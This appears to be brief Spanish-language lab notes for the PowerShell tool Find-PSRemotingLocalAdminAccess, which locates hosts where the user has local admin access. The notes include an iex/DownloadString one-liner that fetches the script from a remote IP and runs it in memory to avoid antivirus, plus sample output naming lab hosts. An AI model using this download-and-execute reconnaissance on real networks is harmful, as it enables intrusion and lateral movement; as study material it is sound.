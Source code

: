 # Find-PSRemotingLocalAdminAccess

Cargar modulo.

Import-Module .\Find-PSRemotingLocalAdminAccess.ps1  //sin AV, importar modulo

iex(New-Object Net.WebClient).DownloadString('http://172.16.99.38:8000/Find-PSRemotingLocalAdminAccess.ps1')        //cargar a memoria

PS C:> Find-PSRemotingLocalAdminAccess  //ejecutar script
dcorp-std738
dcorp-adminsrv

